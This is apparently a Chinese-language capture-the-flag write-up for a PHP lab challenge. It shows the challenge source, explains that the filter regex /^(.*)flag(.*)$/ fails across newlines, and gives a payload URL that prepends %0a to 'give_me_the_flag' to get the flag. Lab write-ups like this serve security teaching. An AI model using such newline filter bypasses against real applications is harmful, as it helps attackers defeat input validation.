


## 【题解】

**注：** 这里环境里的flag是自己输入的随机字符，所以不用考虑最后flag和答案不一致的问题

1.打开自己电脑中的浏览器，访问靶机开放的环境地址`http://IP:PORT/`来进行访问实验环境



2.我们可以直接看到php主要逻辑代码：

```php
<?php
    error_reporting(0);
    require __DIR__.'/flag.php';

    if(isset($_GET['say']) && strlen($_GET['say']) < 20){

        $say = preg_replace('/^(.*)flag(.*)$/', '${1}<!-- filtered -->${2}', $_GET['say']);

        if(preg_match('/give_me_the_flag/', $say)){
            echo $flag;
        }else{
            echo 'What the f**k?';
        }

        echo '<hr>';
    }

    highlight_file(__FILE__);
```

3.审计代码发现正则写法为:

```php
/^(.*)flag(.*)$/
```

4.而这个写法是存在缺陷的:`.`用于任意字符匹配并不包括换行符，而且`^ $`界定了必须在同一行，否则匹配不到，也就是说，换行的话，即可破解所以payload为：

```url
http://IP:PORT/challenge28.php?say=%0agive_me_the_flag
```

5.获取flag：


